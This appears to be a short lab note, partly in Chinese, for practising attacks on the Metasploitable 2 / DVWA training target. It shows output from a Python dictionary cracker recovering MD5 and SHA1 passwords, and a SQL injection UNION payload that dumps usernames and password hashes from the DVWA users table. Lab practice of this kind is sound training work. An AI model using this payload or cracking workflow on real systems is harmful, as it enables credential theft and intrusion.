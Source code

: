 # Cracking Password Hashes With Python - POSTEXPLOIT Attack

- Metasploitable 2<br/>
    http://<Metasploitable 2 IP>/dvwa/index.php

- Testing<br/>
    - Search **MD5 Encryption**<br/>
        建立加密後的MD5密碼，如 5f4dcc3b5aa765d61d8327deb882cf99

    - Search **SHA1 Encryption**<br/>
        建立加密後的SHA1密碼，如 9bc34549d565d9505b287de0cd20ac77be1d3f2c

        ```python
        $ python cracker_password.py 
        Which type of hash you want to bruteforce? md5
        Enter path to the file to bruteforce with: passwordlist.txt
        Enter hash value to bruteforce: 5f4dcc3b5aa765d61d8327deb882cf99
        Found MD5 password: password
        ```

        ```python
        $ python cracker_password.py
        Which type of hash you want to bruteforce? sha1
        Enter path to the file to bruteforce with: passwordlist.txt
        Enter hash value to bruteforce: 9bc34549d565d9505b287de0cd20ac77be1d3f2c
        Found SHA1 password: test1234
        ```

# SQL injection

- Metasploitable DVWA - SQL injection
    ``` SQL
    2' UNION SELECT CONCAT(user_id,'-',first_name,' ',last_name), CONCAT(user,':',password) FROM dvwa.users #'
    ```
